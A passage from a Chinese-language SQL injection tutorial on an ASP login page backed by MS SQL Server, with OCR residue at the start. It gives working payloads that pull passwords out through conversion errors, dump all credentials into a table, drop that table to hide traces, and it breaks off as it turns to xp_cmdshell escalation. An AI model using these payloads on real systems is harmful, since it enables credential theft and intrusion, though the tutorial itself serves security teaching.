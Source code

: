 [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the varchar value &amp;apos;chris&amp;apos; to a column of data type int.

/process_login.asp, line 35

一旦攻击者确定了用户名，他就可以开始收集密码：

Username：&amp;apos; union select password,1,1,1 from users where username=&amp;apos;admin&amp;apos;-

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e07&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the varchar value &amp;apos;r00tr0x!&amp;apos; to a column of data type int.

/process_login.asp, line 35

一个更高级的技术是将所有用户名和密码连接长一个单独的字符串，然后尝试把它转化成整型数字。这个例子指出：Transavt-SQL语法能够在不改变相同的行的意思的情况下把它们连接起来。下面的脚本将把值连接起来：

begin declare @ret varchar(8000)

set @ret=&amp;apos;:&amp;apos;

select @ret=@ret+&amp;apos; &amp;apos;+username+&amp;apos;/&amp;apos;+password from users where

username&gt;@ret

select @ret as ret into foo

end

攻击者使用这个当作用户名登陆（都在一行）

Username: &amp;apos;; begin declare @ret varchar(8000) set @ret=&amp;apos;:&amp;apos; select @ret=@ret+&amp;apos; &amp;apos;+username+&amp;apos;/&amp;apos;+password from users where username&gt;@ret select @ret as ret into foo end-

这就创建了一个foo表，里面只有一个单独的列&amp;apos;ret&amp;apos;，里面存放着我们得到的用户名和密码的字符串。正常情况下，一个低权限的用户能够在同一个数据库中创建表，或者创建临时数据库。

然后攻击者就可以取得我们要得到的字符串：

Username：&amp;apos; union select ret,1,1,1 from foo-

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e07&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the varchar value &amp;apos;: admin/r00tr0x! guest/guest chris/password fred/sesame&amp;apos; to a column of data type int.

/process_login.asp, line 35

然后丢弃（删除）表来清楚脚印：

Username：&amp;apos;; drop table foo-

这个例子仅仅是这种技术的一个表面的作用。没必要说，如果攻击者能够从数据库中获得足够的错误西，他们的工作就变的无限简单。

获得更高的权限

一旦攻击者控制了数据库，他们就想利用那个权限去获得网络上更高的控制权。这可以通过许多途径来达到：

1\. 在数据库服务器上，以SQLSERVER权限利用xp_cmdshell扩展存储过程执行命令。
